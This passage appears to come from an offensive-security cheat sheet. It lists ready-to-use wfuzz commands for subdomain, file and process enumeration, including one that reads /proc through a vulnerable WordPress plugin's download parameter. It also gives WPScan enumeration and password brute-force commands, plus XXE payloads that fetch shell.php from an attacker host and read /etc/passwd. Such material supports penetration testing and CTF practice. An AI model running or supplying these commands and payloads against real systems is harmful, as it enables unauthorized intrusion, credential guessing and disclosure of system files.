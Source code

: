 ##### DNS

```c
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Origin: http://FUZZ.<RHOST>" --filter "r.headers.response~'Access-Control-Allow-Origin'" http://<RHOST>/
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,404,403 -H "Host: FUZZ.<RHOST>" -u http://<RHOST> -t 100
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,403,404 -H "Host: FUZZ.<RHOST>" -u http://<RHOST> --hw <value> -t 100
```

##### Numbering Files

```c
wfuzz -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt --hw 31 http://10.13.37.11/backups/backup_2021052315FUZZ.zip
```

##### Enumerating PIDs

```c
wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000
```

#### WPScan

```c
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
wpscan --url https://<RHOST> --disable-tls-checks --enumerate u,t,p
wpscan --url http://<RHOST> -U <USERNAME> -P passwords.txt -t 50
```

#### XML External Entity (XXE)

##### Skeleton Payload Request

```c
GET / HTTP/1.1
Host: <RHOST>:<RPORT>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 136

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://<LHOST>:80/shell.php" >]>
<foo>&xxe;</foo>
```

##### Payloads

```c
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xxe [ <!ENTITY passwd SYSTEM 'file:///etc/passwd'> ]>
 <stockCheck><productId>&passwd;</productId><storeId>1</storeId></stockCheck>
```
